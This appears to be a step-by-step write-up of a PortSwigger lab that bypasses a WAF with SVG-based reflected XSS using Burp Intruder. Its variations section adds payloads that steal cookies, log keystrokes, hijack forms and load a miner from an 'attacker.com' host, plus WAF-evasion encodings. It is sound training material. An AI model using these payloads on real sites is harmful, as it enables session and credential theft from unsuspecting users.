

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔍 Identify Reflected XSS vulnerability with partial WAF protection
- 🎯 Understand SVG (Scalable Vector Graphics) tag bypass techniques
- 💉 Use Burp Intruder to enumerate allowed SVG tags
- 🔗 Discover `<svg>` and `<animatetransform>` tags are allowed
- ⚡ Find `onbegin` event handler works with SVG animation elements
- 🚨 Create payload that executes `alert()` automatically
- 🎉 Solve lab with SVG-based XSS exploitation

---

## 🧠 **Concept Recap**

> **Reflected XSS with SVG Markup** occurs when a web application firewall (WAF) blocks common HTML tags but fails to block certain SVG (Scalable Vector Graphics) tags and their associated event handlers. SVG is a legitimate XML-based markup language for graphics, but it supports JavaScript event handlers just like HTML elements. Attackers can exploit allowed SVG tags combined with animation-specific events like `onbegin` to achieve XSS when standard HTML vectors are blocked.

### 📊 **The Vulnerability**

**Normal XSS attempt (blocked by WAF):**

```HTML
User tries standard payload:

         ↓
WAF intercepts request
         ↓
WAF detects  tag
         ↓
400 Bad Request
         ↓
Payload blocked! ❌
```

**Testing for allowed tags reveals pattern:**

```HTML
Common HTML tags tested:
<script>     → 400 Bad Request ❌
        → 400 Bad Request ❌
<iframe>     → 400 Bad Request ❌
<body>       → 400 Bad Request ❌
<div>        → 400 Bad Request ❌

SVG tags tested:
<svg>        → 200 OK ✓
<animatetransform> → 200 OK ✓
<title>      → 200 OK ✓
<image>      → 200 OK ✓

Pattern discovered:
└── WAF blocks HTML tags
    └── But allows SVG tags! 💡
```

**SVG-based XSS bypass:**

```HTML
Step 1: Discover allowed SVG tags
<svg> → 200 OK ✓
<animatetransform> → 200 OK ✓

Step 2: Test event handlers on SVG elements
<svg><animatetransform onclick=alert(1)>  → 400 Bad Request ❌
<svg><animatetransform onload=alert(1)>   → 400 Bad Request ❌
<svg><animatetransform onbegin=alert(1)>  → 200 OK ✓

Step 3: Construct working payload
"><svg><animatetransform onbegin=alert(1)>
  ↑
  └── Breaks out of existing HTML context

Step 4: Execution flow
Victim visits malicious URL
         ↓
Page renders with SVG payload
         ↓
HTML parsed: <svg><animatetransform onbegin=alert(1)>
         ↓
Browser creates SVG element
         ↓
animatetransform element created
         ↓
Animation begins automatically (onbegin triggers)
         ↓
alert(1) executes! 💥
         ↓
XSS successful - bypassed WAF! 🎯
```

**Key Insight:**

```js
Why SVG bypass works:

1. WAF limitation - Incomplete blacklist:
   └── WAF blocks: <script>, , <iframe>, <body>, etc.
       └── But forgets about SVG tags! ⚠️
           └── SVG is legitimate but powerful
               └── Can execute JavaScript! 💣

2. SVG element capabilities:
   └── SVG supports JavaScript event handlers
       └── Just like HTML elements
           └── <svg onclick="..."> works
               └── <animatetransform onbegin="..."> works ✓

3. Animation-specific events:
   └── onbegin - Fires when animation starts
       └── Triggers automatically (no user interaction)
           └── Perfect for XSS! 💥

4. Why this specific combination works:
   Allowed tag:      <svg>                  → Container for SVG content
   Allowed tag:      <animatetransform>     → SVG animation element
   Allowed event:    onbegin                → Animation start event
   Combination:      <svg><animatetransform onbegin=alert(1)>
   Result:           Automatic XSS! ✓

5. Why common events fail:
   ❌ onclick     → Blocked (too common for XSS)
   ❌ onerror     → Blocked (common attack vector)
   ❌ onload      → Blocked (standard XSS technique)
   ✅ onbegin     → Allowed (SVG-specific, overlooked)

6. The vulnerability chain:
   └── XSS vulnerability exists (reflection)
       └── WAF blocks HTML tags
           └── But SVG tags slip through
               └── SVG supports JavaScript events
                   └── onbegin triggers automatically
                       └── alert() executes! 💣

7. Why SVG is often overlooked:
   └── Developers think of XSS as HTML tags
       └── Forget SVG is also markup
           └── SVG has its own event handlers
               └── Creates bypass opportunity! 🎯

8. What is animatetransform?
   └── SVG element for animating transformations
       └── Can rotate, scale, translate elements
           └── Automatically begins animation when rendered
               └── onbegin event fires immediately! ✓
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab and Setup**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the blog homepage
3. 🔍 Locate the **search functionality**
4. 💻 Ensure **Burp Suite** is running and configured

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ [Search: _____________] [Search]   │ ← Search box
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
└────────────────────────────────────┘
```

**Burp Suite Setup:**

```
1. Open Burp Suite
2. Configure browser to use Burp proxy (127.0.0.1:8080)
3. Ensure Intercept is OFF (for now)
4. We'll use Repeater and Intruder
```

---

### 🔎 **Step 2 — Test Basic Input Reflection**

1. 🖱️ Click in the search box
2. ✏️ Type a test query: `test`
3. 🚀 Click **"Search"** button

**URL changes to:**

```HTTP
https://YOUR-LAB-ID.web-security-academy.net/?search=test
```

**Page displays:**

```HTML
┌──────────────────────────────────────┐
│ Search Results                       │
├──────────────────────────────────────┤
│                                      │
│ 0 search results for 'test'          │ ← Search term reflected
│                                      │
└──────────────────────────────────────┘
```

**Key observation:**

```
✅ Search term is reflected in HTML
✅ Appears in search results heading
✅ Potential XSS vulnerability!
💡 Let's test for XSS
```

---

### 💉 **Step 3 — Test Standard XSS Payload**

Let's test a common XSS vector.

1. 🖱️ In search box, enter:

```html

```

2. 🚀 Click **"Search"**

**Expected result (with WAF):**

```
❌ 400 Bad Request

┌────────────────────────────────────┐
│ 400 Bad Request                    │
│                                    │
│ The request was blocked            │
│                                    │
│ "Tag is not allowed"               │
│                                    │
└────────────────────────────────────┘
```

**Critical discovery:**

```
🚨 WAF DETECTED!

Observations:
├──  tag blocked by WAF
├── 400 Bad Request response
├── Payload never reflected in HTML
└── Need to find allowed tags! 🎯

This means:
└── XSS vulnerability likely exists
    └── But common vectors are blocked
        └── Need systematic enumeration
            └── Find which tags bypass WAF! ✓
```

---

### 🔬 **Step 4 — Prepare Burp Intruder for Tag Enumeration**

Now we'll systematically test which tags are allowed.

1. 💻 In Burp, go to **Proxy → HTTP history**
2. 🔍 Find the search request (GET /?search=test)
3. 🖱️ Right-click → **"Send to Intruder"**
4. 📋 Go to **Intruder** tab

**You should see the request:**

```http
GET /?search=test HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=...
User-Agent: ...
```

---

### 🎯 **Step 5 — Configure Intruder for Tag Fuzzing**

**In Burp Intruder:**

1. 📋 Go to **Positions** tab
    
2. 🔄 Click **"Clear §"** to remove default payload positions
    
3. ✏️ Modify the search parameter value to: `<>`
    

```http
GET /?search=<> HTTP/2
```

4. 🖱️ Place cursor between the angle brackets: `<|>`
    
5. 🎯 Click **"Add §"** button
    

**Result should be:**

```http
GET /?search=<§§> HTTP/2
              ↑↑
    Payload will be inserted here
```

**Visual representation:**

```HTTP
Template:
GET /?search=<§§>

Examples during attack:
GET /?search=<script>
GET /?search=
GET /?search=<svg>
GET /?search=<animatetransform>
... etc
```

---

### 📜 **Step 6 — Load Tag Payloads from XSS Cheat Sheet**

1. 🌐 Open new tab and go to - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

    
2. 📋 On the cheat sheet page, click **"Copy tags to clipboard"** button
    
3. 💻 In Burp Intruder, go to **Payloads** tab (side panel)
    
4. 📋 Under **"Payload configuration"**, click **"Paste"** button
    

**The payload list should now contain:**

```
script
img
svg
animatetransform
body
iframe
title
image
video
... (100+ HTML/SVG tags)
```

---

### 🚀 **Step 7 — Start Tag Enumeration Attack**

1. 🔧 Verify Intruder settings:
    - Attack type: **Sniper** (default)
    - Payloads: List of tags loaded
2. 🚀 Click **"Start attack"** button

**Attack results window opens:**

```
┌──────────────────────────────────────────────┐
│ Intruder Attack Results                      │
├───┬─────────────────┬────────┬────────┬──────┤
│ # │ Payload         │ Status │ Length │ Note │
├───┼─────────────────┼────────┼────────┼──────┤
│ 1 │ script          │ 400    │ 3012   │ ❌   │
│ 2 │ img             │ 400    │ 3012   │ ❌   │
│ 3 │ iframe          │ 400    │ 3012   │ ❌   │
│ 4 │ body            │ 400    │ 3012   │ ❌   │
│ 5 │ div             │ 400    │ 3012   │ ❌   │
│ ..│ ...             │ ...    │ ...    │ ...  │
│ 12│ svg             │ 200    │ 4523   │ ✅   │
│ 13│ animatetransform│ 200    │ 4589   │ ✅   │
│ 14│ title           │ 200    │ 4501   │ ✅   │
│ 15│ image           │ 200    │ 4498   │ ✅   │
│ ..│ ...             │ ...    │ ...    │ ...  │
└───┴─────────────────┴────────┴────────┴──────┘
```

**Critical Analysis:**

```
🎯 BREAKTHROUGH DISCOVERY!

Pattern identified:
├── Most HTML tags: 400 Bad Request (blocked)
├── SVG tags: 200 OK (allowed!) ✓
└── Specifically allowed:
    ├── <svg> ✅
    ├── <animatetransform> ✅
    ├── <title> ✅
    └── <image> ✅

Why SVG tags allowed?
└── WAF focuses on blocking HTML attack vectors
    └── Overlooks SVG markup
        └── SVG considered "safe" graphics
            └── But SVG supports JavaScript! ⚠️

Next step:
└── Test event handlers on SVG elements
    └── Find which events are allowed
        └── Craft XSS payload! 🎯
```

3. 🔍 **Note the allowed tags:**
    - `svg` - Returns 200 OK ✓
    - `animatetransform` - Returns 200 OK ✓
    - `title` - Returns 200 OK ✓
    - `image` - Returns 200 OK ✓

---

### 🎯 **Step 8 — Setup Intruder for Event Handler Enumeration**

Now we need to find which event handlers work with SVG elements.

**Strategy: Test animatetransform since it has animation events**

1. 💻 Go back to Burp Intruder **Positions** tab
    
2. ✏️ Modify the search parameter to:
    

```http
GET /?search=<svg><animatetransform%20=1> HTTP/2
```

**Note:** `%20` is URL encoding for space

3. 🖱️ Place cursor before the `=` sign: `<svg><animatetransform%20|=1>`
    
4. 🎯 Click **"Add §"** to create payload position
    

**Result should be:**

```http
GET /?search=<svg><animatetransform%20§§=1> HTTP/2
                                       ↑↑
                Event handler inserted here
```

**Visual representation:**

```
Template:
GET /?search=<svg><animatetransform%20§§=1>

Examples during attack:
GET /?search=<svg><animatetransform%20onclick=1>
GET /?search=<svg><animatetransform%20onerror=1>
GET /?search=<svg><animatetransform%20onbegin=1>
GET /?search=<svg><animatetransform%20onend=1>
... etc
```

---

### 📜 **Step 9 — Load Event Handler Payloads**

1. 🌐 Go back to PortSwigger XSS Cheat Sheet - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    
2. 📋 Click **"Copy events to clipboard"** button
    
3. 💻 In Burp Intruder, go to **Payloads** tab
    
4. 🗑️ Click **"Clear"** to remove previous tag list
    
5. 📋 Click **"Paste"** to add event handlers
    

**The payload list should now contain:**

```
onclick
onerror
onload
onmouseover
onfocus
onbegin
onend
onrepeat
onanimationstart
... (100+ event handlers)
```

---

### 🚀 **Step 10 — Start Event Handler Enumeration Attack**

1. 🚀 Click **"Start attack"** button

**Results window:**

```
┌──────────────────────────────────────────────┐
│ Intruder Attack Results                      │
├───┬─────────────────┬────────┬────────┬──────┤
│ # │ Payload         │ Status │ Length │ Note │
├───┼─────────────────┼────────┼────────┼──────┤
│ 1 │ onclick         │ 400    │ 3012   │ ❌   │
│ 2 │ onerror         │ 400    │ 3012   │ ❌   │
│ 3 │ onload          │ 400    │ 3012   │ ❌   │
│ 4 │ onmouseover     │ 400    │ 3012   │ ❌   │
│ 5 │ onfocus         │ 400    │ 3012   │ ❌   │
│ ..│ ...             │ ...    │ ...    │ ...  │
│ 23│ onbegin         │ 200    │ 4678   │ ✅   │
│ ..│ ...             │ ...    │ ...    │ ...  │
└───┴─────────────────┴────────┴────────┴──────┘
```

**Critical discovery:**

```HTML
🎉 JACKPOT!

Findings:
├── Most events: 400 Bad Request (blocked)
├── onbegin: 200 OK (allowed!) ✅
└── Combination found: <svg><animatetransform onbegin=...>

What is onbegin?
└── SVG animation event
    └── Fires when animation begins
        └── Triggers automatically when element renders! ✓

Why onbegin?
└── Less commonly used than onclick/onload
    └── Specific to SVG animations
        └── Often overlooked by WAF rules
            └── Perfect for bypass! 💥

Attack vector identified:
└── Tag: <svg><animatetransform>
    └── Event: onbegin
        └── Triggers: Automatically on render
            └── Payload: alert(1)
                └── Complete XSS! ✓
```

2. 🔍 **Identify allowed event:**
    - `onbegin` - Returns 200 OK ✅

---

### 💡 **Step 11 — Understanding the Attack**

**What we've discovered:**

```HTML
Allowed components:
├── <svg> tag ✓
├── <animatetransform> tag ✓
└── onbegin event handler ✓

How animatetransform works:

Definition:
└── SVG element that animates transformations
    └── Can rotate, scale, translate, skew elements
        └── Part of SVG Animation specification

Automatic behavior:
└── When rendered, animation starts immediately
    └── onbegin event fires when animation begins
        └── No user interaction needed! ✓

Example of normal SVG animation:
<svg>
  <rect width="100" height="100">
    <animatetransform 
      attributeName="transform" 
      type="rotate" 
      from="0" 
      to="360" 
      dur="2s" 
      repeatCount="indefinite"/>
  </rect>
</svg>

For XSS exploitation:
<svg>
  <animatetransform onbegin=alert(1)>
</svg>

Execution flow:
Browser parses HTML
         ↓
Encounters <svg> tag
         ↓
Creates SVG context
         ↓
Encounters <animatetransform>
         ↓
Creates animation element
         ↓
Animation automatically begins
         ↓
onbegin event fires
         ↓
alert(1) executes! 💥
```

---

### 🛠️ **Step 12 — Construct the Complete Payload**

**Breaking out of HTML context:**

The search term is reflected here:

```html
<h1>0 search results for 'USER_INPUT'</h1>
```

We need to:

1. Close the single quote: `'`
2. Close the tag: `>`
3. Inject our SVG payload: `<svg><animatetransform onbegin=alert(1)>`

**Complete payload:**

```HTML
"><svg><animatetransform onbegin=alert(1)>
↑
└── Closes attribute and tag, injects SVG
```

**Breakdown:**

```HTML
"          → Closes the single quote in 'USER_INPUT'
>          → Closes the <h1> tag
<svg>      → Opens SVG context
<animatetransform onbegin=alert(1)> → Animation element with event handler

Result in HTML:
<h1>0 search results for '"><svg><animatetransform onbegin=alert(1)>'</h1>
                             ↑
                    HTML context broken, SVG injected
```

**URL-encoded version:**

```
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```

**Encoding breakdown:**

```HTML
"  → %22 (double quote)
>  → %3E (greater than)
<  → %3C (less than)
   → %20 (space)
>  → %3E (greater than)

Original:
"><svg><animatetransform onbegin=alert(1)>

URL-encoded:
%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```

**Complete URL:**

```
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```

---

### 🧪 **Step 13 — Test the Payload in Browser**

1. 🌐 Copy the complete URL
2. 📋 Replace `YOUR-LAB-ID` with your actual lab ID
3. 🖱️ Paste into browser address bar
4. ⏎ Press Enter

**Expected result:**

```
Page loads
         ↓
SVG payload rendered
         ↓
<svg><animatetransform onbegin=alert(1)> parsed
         ↓
Animation element created
         ↓
Animation begins automatically
         ↓
onbegin event fires
         ↓
alert(1) executes! 💥
         ↓
Alert dialog appears! ✓
```

**Alert dialog:**

```
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│            1                       │
│                                    │
│              [OK]                  │
└────────────────────────────────────┘
```

2. ✅ If alert appears, payload works!
3. 🎉 Lab should be automatically solved!

**Troubleshooting:**

```
Problem: Alert doesn't appear

Check 1: Is the URL encoding correct?
└── Special characters must be properly encoded
    └── Verify %22, %3E, %3C are correct
        └── Use browser dev tools to check

Check 2: Is the lab ID correct?
└── YOUR-LAB-ID must be replaced with actual ID
    └── Copy from lab page URL
        └── Don't include extra characters

Check 3: Is the syntax correct?
└── Must be: <svg><animatetransform onbegin=alert(1)>
    └── Space between animatetransform and onbegin
        └── Check for typos

Check 4: Try in Burp Repeater first
└── Send request through Burp Repeater
    └── Check response for 200 OK
        └── Verify payload is reflected correctly
```

---

### ✅ **Step 14 — Lab Completion**

**After visiting the URL with the payload:**

```
Lab automatically detects:
├── Payload executed successfully
├── alert() function called
├── XSS demonstrated
└── Lab solved! ✓
```

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully bypassed WAF      │
│  protection by identifying allowed  │
│  SVG tags and using SVG animation   │
│  events to achieve XSS.             │
│                                     │
│  Lab: Reflected XSS with some SVG   │
│       markup allowed                │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Test search functionality
         → search=test → Reflected in HTML ✓
         ↓
Step 3: Test standard XSS payload
         → 
         → 400 Bad Request
         → WAF detected! 🚨
         ↓
Step 4: Setup Burp Intruder for tag enumeration
         → Modified request: /?search=<§§>
         ↓
Step 5: Load tag payloads from XSS cheat sheet
         → 100+ HTML and SVG tags
         ↓
Step 6: Start tag enumeration attack
         → Test all tags systematically
         ↓
Step 7: Analyze results
         → Most tags: 400 (blocked)
         → SVG tags: 200 (allowed!) ✅
         → Found: <svg>, <animatetransform>, <title>, <image>
         ↓
Step 8: Setup Burp Intruder for event handler enumeration
         → Modified request: /?search=<svg><animatetransform%20§§=1>
         ↓
Step 9: Load event handler payloads
         → 100+ event handlers to test
         ↓
Step 10: Start event enumeration attack
         → Test all events with animatetransform
         ↓
Step 11: Analyze results
         → Most events: 400 (blocked)
         → onbegin: 200 (allowed!) ✅
         ↓
Step 12: Understand the attack mechanism
         → onbegin fires when animation starts
         → Automatic trigger (no user interaction)
         → Perfect for XSS! ✓
         ↓
Step 13: Construct complete payload
         → "><svg><animatetransform onbegin=alert(1)>
         → Breaks out of HTML context
         → Injects SVG with auto-trigger event
         ↓
Step 14: URL encode payload
         → %22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
         ↓
Step 15: Test in browser
         → Visit URL with encoded payload
         → Page renders SVG
         → Animation begins
         → onbegin fires
         → alert(1) executes! 💥
         ↓
Step 16: Lab automatically solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **SVG (Scalable Vector Graphics)**

```HTML
What is SVG?

Definition:
└── XML-based markup language for vector graphics
    └── Scalable images that don't pixelate
        └── Supported by all modern browsers
            └── Integral part of web standards ✓

SVG structure:
<svg width="100" height="100">
  <circle cx="50" cy="50" r="40" fill="red" />
</svg>

Creates:
└── A red circle in a 100x100 viewport
    └── Scales perfectly at any size
        └── Defined by mathematical coordinates ✓

SVG capabilities:
├── Shapes: circle, rect, path, polygon, etc.
├── Text: <text> elements
├── Gradients: linear and radial
├── Filters: blur, shadow, etc.
├── Animations: <animate>, <animatetransform>
└── JavaScript: Event handlers and scripting! ⚠️

Why SVG is powerful for XSS:

1. JavaScript support:
   └── SVG elements can have event handlers
       └── onclick, onload, onbegin, etc.
           └── Just like HTML elements! ✓

2. Animation elements:
   └── <animate>, <animatetransform>, <animatemotion>
       └── Have automatic trigger events
           └── onbegin, onend, onrepeat
               └── Fire without user interaction! 💥

3. Script tag in SVG:
   └── <svg><script>alert(1)</script></svg>
       └── SVG can contain <script> tags
           └── Executes JavaScript in page context ✓

4. Foreignobject element:
   └── <svg><foreignObject><body onload=alert(1)></foreignObject></svg>
       └── Allows HTML inside SVG
           └── Can bypass some filters! 💡

SVG in XSS context:
└── Often overlooked by WAFs
    └── Considered "graphics" not "code"
        └── But fully JavaScript-capable
            └── Excellent for bypasses! 🎯
```

---

### **The animatetransform Element**

```HTML
Understanding animatetransform:

Purpose:
└── Animates transformation attributes of elements
    └── Transformations: translate, scale, rotate, skewX, skewY
        └── Creates dynamic visual effects ✓

Normal usage example:
<svg width="200" height="200">
  <rect x="50" y="50" width="100" height="100" fill="blue">
    <animatetransform 
      attributeName="transform" 
      type="rotate" 
      from="0 100 100" 
      to="360 100 100" 
      dur="3s" 
      repeatCount="indefinite"/>
  </rect>
</svg>

Result:
└── Blue square rotates continuously
    └── Rotates around its center (100, 100)
        └── 360 degrees every 3 seconds ✓

Key attributes:
├── attributeName - Which attribute to animate (usually "transform")
├── type - Type of transformation (rotate, scale, translate, etc.)
├── from - Starting value
├── to - Ending value
├── dur - Duration of animation
├── repeatCount - How many times to repeat (or "indefinite")
└── Event handlers - onbegin, onend, onrepeat ✓

Event handlers on animatetransform:

onbegin:
└── Fires when animation starts
    └── Triggers automatically when element rendered
        └── No user interaction needed! ✓

onend:
└── Fires when animation completes
    └── Requires animation to have finite duration
        └── Can be used for delayed execution

onrepeat:
└── Fires each time animation repeats
    └── Requires repeatCount > 1
        └── Can trigger multiple times

XSS exploitation:
<svg>
  <animatetransform onbegin=alert(1)>
</svg>

Why this works:
└── animatetransform element created
    └── Animation begins immediately (default behavior)
        └── onbegin event fires
            └── alert(1) executes! 💥

No other attributes needed:
└── Don't need attributeName, type, from, to, etc.
    └── Just need the element to exist
        └── onbegin fires on creation
            └── Minimal payload! ✓

Why WAFs miss this:
└── Focus on blocking common HTML events
    └── onclick, onerror, onload
        └── Overlook SVG-specific events
            └── onbegin slips through! 🎯
```

---

### **Why This Specific Bypass Works**

```HTML
The complete bypass mechanism:

1. WAF blacklist limitation:
   └── Blocks common HTML tags
       ├── <script> ❌
       ├──  ❌
       ├── <iframe> ❌
       └── <body> ❌
   └── But allows SVG tags
       ├── <svg> ✅
       ├── <animatetransform> ✅
       ├── <title> ✅
       └── <image> ✅

2. Why SVG allowed:
   └── WAF developers focus on "dangerous" HTML
       └── SVG seen as graphics, not scripting
           └── Overlooked in security rules
               └── Creates bypass opportunity! 💡

3. JavaScript capability:
   └── SVG fully supports JavaScript
       └── Event handlers work on SVG elements
           └── onbegin is valid SVG event
               └── Executes JavaScript! ✓

4. Automatic trigger:
   └── animatetransform begins animation on render
       └── onbegin fires immediately
           └── No user interaction needed
               └── Perfect for exploitation! 💥

5. Event handler filtering gap:
   └── WAF blocks common events
       ├── onclick ❌
       ├── onerror ❌
       └── onload ❌
   └── But allows SVG-specific events
       └── onbegin ✅ (overlooked)

6. The attack chain:
   SVG tag allowed     → Bypasses HTML tag blacklist
   animatetransform    → SVG animation element
   onbegin event       → Automatic trigger
   alert() payload     → JavaScript execution
   Result              → XSS! 💣

7. Why standard approaches fail:
   ❌  →  blocked
   ❌ <script>alert(1)</script> → <script> blocked
   ❌ <body onload=alert(1)> → <body> blocked
   ✅ <svg><animatetransform onbegin=alert(1)> → Works!

8. Defense evasion:
   └── WAF expects HTML-based attacks
       └── SVG is XML-based
           └── Different namespace, different rules
               └── Slips through filters! 🎯

9. Browser behavior:
   └── Browsers treat SVG as first-class citizen
       └── Full JavaScript support in SVG context
           └── No restrictions on SVG event handlers
               └── Executes just like HTML events! ✓

10. Minimal payload advantage:
    └── Don't need complex animation attributes
        └── Just <animatetransform onbegin=...>
            └── Simpler = harder to detect
                └── Higher success rate! 💯
```

---

## 🚀 **Attack Variations**

### **Variation 1: Different SVG Animation Elements**

```html
If animatetransform is blocked, try other animation elements:

Using animate:
"><svg><animate onbegin=alert(1)>

Using animatemotion:
"><svg><animatemotion onbegin=alert(1)>

Using set:
"><svg><set onbegin=alert(1)>

All are SVG animation elements:
└── All support onbegin event
    └── All trigger automatically
        └── All can execute JavaScript! ✓

Comparison:
├── <animate> - Animates single attribute
├── <animatetransform> - Animates transformations
├── <animatemotion> - Animates along path
└── <set> - Sets attribute to value at specific time

All work for XSS! ✓
```

---

### **Variation 2: Different SVG Event Handlers**

```html
If onbegin is blocked, try other SVG events:

Using onend:
"><svg><animatetransform dur="1s" onend=alert(1)>
Note: Requires dur attribute, fires after animation completes

Using onrepeat:
"><svg><animatetransform dur="1s" repeatCount="2" onrepeat=alert(1)>
Note: Fires each time animation repeats

Using onload on SVG element:
"><svg onload=alert(1)>
Note: Fires when SVG loads (if allowed by WAF)

Using onclick on SVG:
"><svg onclick=alert(1)><text>click</text></svg>
Note: Requires user interaction

SVG-specific events often overlooked:
└── onbegin, onend, onrepeat
    └── Specific to animation elements
        └── Less commonly filtered! ✓
```

---

### **Variation 3: SVG with Script Tag**

```html
If event handlers are blocked, try script tag:

Direct script in SVG:
"><svg><script>alert(1)</script></svg>

With CDATA:
"><svg><script><![CDATA[alert(1)]]></script></svg>

External script:
"><svg><script href="https://attacker.com/xss.js"></svg>

Script tag in SVG:
└── <script> inside <svg> is valid
    └── Different namespace than HTML <script>
        └── May bypass filters! 💡

Note:
└── Many WAFs block <script> in all contexts
    └── But worth trying if events blocked
        └── Different parsers may allow it! ✓
```

---

### **Variation 4: SVG Foreignobject**

```html
Using foreignObject to embed HTML in SVG:

Basic foreignObject:
"><svg><foreignObject width="100" height="100"><body xmlns="http://www.w3.org/1999/xhtml"><script>alert(1)</script></body></foreignObject></svg>

With event handler:
"><svg><foreignObject width="100" height="100"><body xmlns="http://www.w3.org/1999/xhtml" onload=alert(1)></body></foreignObject></svg>

With HTML elements:
"><svg><foreignObject></foreignObject></svg>

foreignObject:
└── Allows HTML content inside SVG
    └── Creates different parsing context
        └── May bypass SVG-specific filters! 💡

Benefits:
└── Can use HTML tags inside SVG
    └── More attack vectors available
        └── Flexibility in exploitation! ✓
```

---

### **Variation 5: Multiple SVG Tags**

```html
Chain multiple allowed SVG tags:

Multiple elements:
"><svg><title>XSS</title><animatetransform onbegin=alert(1)>

Using image tag:
"><svg><image href=x onerror=alert(1)>

Using text tag:
"><svg><text onclick=alert(1)>click</text></svg>

Nested SVG:
"><svg><svg onload=alert(1)></svg></svg>

Strategy:
└── If one SVG element blocked
    └── Try others from enumeration results
        └── <title>, <image>, etc.
            └── Increase chances of success! ✓
```

---

### **Variation 6: Encoding and Obfuscation**

```html
If WAF detects specific patterns:

HTML entity encoding in attribute:
"><svg><animatetransform onbegin=&#97;&#108;&#101;&#114;&#116;(1)>
Where: 97=a, 108=l, 101=e, 114=r, 116=t

Unicode escaping:
"><svg><animatetransform onbegin=\u0061\u006c\u0065\u0072\u0074(1)>

Case variation:
"><SvG><AnImAtEtRaNsFoRm OnBeGiN=alert(1)>

String concatenation:
"><svg><animatetransform onbegin=window['ale'+'rt'](1)>

Using eval:
"><svg><animatetransform onbegin=eval('alert(1)')>

Using Function constructor:
"><svg><animatetransform onbegin=Function('alert(1)')()>

All may bypass signature detection! ✓
```

---

### **Variation 7: Alternative Payloads Beyond alert()**

```html
In real attacks, beyond alert():

Cookie stealing:
"><svg><animatetransform onbegin="fetch('https://attacker.com/?c='+document.cookie)">

Session hijacking:
"><svg><animatetransform onbegin="new Image().src='https://attacker.com/?s='+document.cookie">

Keylogging:
"><svg><animatetransform onbegin="document.onkeypress=e=>fetch('https://attacker.com/?k='+e.key)">

Page defacement:
"><svg><animatetransform onbegin="document.body.innerHTML='<h1>Hacked</h1>'">

Form hijacking:
"><svg><animatetransform onbegin="document.forms[0].action='https://attacker.com/steal'">

Credential theft:
"><svg><animatetransform onbegin="document.forms[0].onsubmit=()=>{fetch('https://attacker.com',{method:'POST',body:new FormData(document.forms[0])})}">

Cryptocurrency miner:
"><svg><animatetransform onbegin="var s=document.createElement('script');s.src='https://attacker.com/miner.js';document.body.appendChild(s)">

All use same SVG bypass technique! 💀
```

---

### **Variation 8: Delayed Execution**

```html
Using animation duration for delayed triggers:

Delayed alert:
"><svg><animatetransform dur="5s" onend=alert(1)>
Fires after 5 seconds

Repeated alerts:
"><svg><animatetransform dur="2s" repeatCount="indefinite" onrepeat=alert(1)>
Fires every 2 seconds continuously

Timed payload:
"><svg><animatetransform dur="10s" onend="fetch('https://attacker.com')">
Executes after 10 seconds

Use cases:
└── Evade quick security scans
    └── Delay execution until after scan completes
        └── Stealthy attack! 🥷

Benefits:
└── May avoid real-time detection
    └── Harder to trace
        └── More sophisticated! ✓
```

---

### **Variation 9: SVG via Data URI**

```html
Embedding SVG in data URI:

In img tag (if allowed):
">">

In object tag:
"><object data="data:image/svg+xml,<svg onload=alert(1)>">

In embed tag:
"><embed src="data:image/svg+xml,<svg onload=alert(1)>">

Base64 encoded:
">

Data URI benefits:
└── Embeds entire SVG in URL
    └── May bypass file upload filters
        └── Different attack vector! 💡

Note:
└── Requires HTML tag like  to be allowed
    └── Combines with other bypasses
        └── Versatile technique! ✓
```

---

## 📚 **Additional Resources**

### **SVG Security Considerations**

```HTML
Why SVG creates security challenges:

1. Dual nature:
   └── Graphics format (seems safe)
       └── But JavaScript-capable (dangerous)
           └── Creates false sense of security ⚠️

2. Multiple namespaces:
   └── HTML namespace: http://www.w3.org/1999/xhtml
       └── SVG namespace: http://www.w3.org/2000/svg
           └── Filters may not cover both! 💡

3. Rich feature set:
   ├── Animations (automatic triggers)
   ├── Scripts (JavaScript execution)
   ├── Event handlers (interactivity)
   ├── External resources (data exfiltration)
